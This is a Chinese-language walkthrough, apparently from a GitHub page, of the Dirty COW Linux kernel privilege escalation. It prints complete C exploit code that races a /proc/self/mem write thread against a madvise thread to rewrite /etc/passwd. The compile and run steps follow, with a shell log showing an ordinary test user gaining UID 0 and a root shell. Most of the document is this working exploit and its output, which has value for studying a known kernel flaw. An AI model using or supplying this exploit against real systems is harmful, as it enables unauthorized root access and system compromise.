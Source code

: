 #


#### 攻击目标
通过非root权限修改/etc/passwd中的普通用户为root权限。


#### 攻击准备
**添加用户**  
```
ubuntu@VM-0-17-ubuntu:~$ sudo adduser testcow
Adding user `testcow' ...
Adding new group `testcow' (1002) ...
Adding new user `testcow' (1002) with group `testcow' ...
Creating home directory `/home/testcow' ...
Copying files from `/etc/skel' ...
Enter new UNIX password: 
Retype new UNIX password: 
passwd: password updated successfully
Changing the user information for testcow
Enter the new value, or press ENTER for the default
	Full Name []: 
	Room Number []: 
	Work Phone []: 
	Home Phone []: 
	Other []: 
Is the information correct? [Y/n]  
ubuntu@VM-0-17-ubuntu:~$ cat /etc/passwd | grep testcow
testcow:x:1002:1002:,,,:/home/testcow:/bin/bash
```


**攻击程序**  

攻击需要两个线程，一个通过write尝试修改映射后的内存，一个madvise丢弃映射内存的私有拷贝。  

```
// cow.c
#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;


void *writeThread(void *arg)
{
    char *content = "testcow:x:0000";
    off_t offset = (off_t)arg;

    int f = open("/proc/self/mem", O_RDWR);
    while(1)
    {
        lseek(f, offset, SEEK_SET);
        write(f, content, strlen(content));
    }
}


void *madviseThread(void *arg)
{
    int file_size = (int)arg;
    while(1)
    {
        madvise(map, file_size, MADV_DONTNEED);
    }
}

int main(int argc, char *argv[])
{
    pthread_t pth1, pth2;
    struct stat st;
    int file_size;

    int f=open("/etc/passwd", O_RDONLY);
    fstat(f, &st);
    file_size = st.st_size;
    map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
    char *position = strstr(map, "testcow:x:1002");
    pthread_create(&pth1, NULL, madviseThread, (void *)file_size);
    pthread_create(&pth2, NULL, writeThread, position);

    pthread_join(pth1, NULL);
    pthread_join(pth2, NULL);
    return 0;
}
```
通过strstr()函数从映射内存找到字符串`testcow:x:1002`  
pthread_create创建线程。第一个参数为指向线程标识符的指针。 第二个参数用来设置线程属性。 第三个参数是线程运行函数的地址。 最后一个参数是运行函数的参数。  
pthread_join等待线程结束。第一个参数为被等待的线程标识符。第二个参数为一个用户定义的指针，它可以用来存储被等待线程的返回值。  







**编译**  
```
ubuntu@VM-0-17-ubuntu:~$ gcc -o cow cow.c -lpthread
```
在编译时加上-lpthread参数，以调用静态链接库。因为pthread并非Linux系统的默认库



#### 执行攻击
```
ubuntu@VM-0-17-ubuntu:~$ gcc -o cow cow.c -lpthread
cow.c: In function ‘writeThread’:
cow.c:19:9: warning: implicit declaration of function ‘lseek’ [-Wimplicit-function-declaration]
         lseek(f, offset, SEEK_SET);
         ^
cow.c:20:9: warning: implicit declaration of function ‘write’ [-Wimplicit-function-declaration]
         write(f, content, strlen(content));
         ^
ubuntu@VM-0-17-ubuntu:~$ ./cow 
^C
ubuntu@VM-0-17-ubuntu:~$ cat /etc/passwd | grep testcow
testcow:x:0000:1002:,,,:/home/testcow:/bin/bash
ubuntu@VM-0-17-ubuntu:~$ su testcow 
Password: 
root@VM-0-17-ubuntu:/home/ubuntu# id
uid=0(root) gid=1002(testcow) groups=1002(testcow)
```
执行几秒后ctrl+c关闭程序  
试验成功，testcow用户成功获得root权限




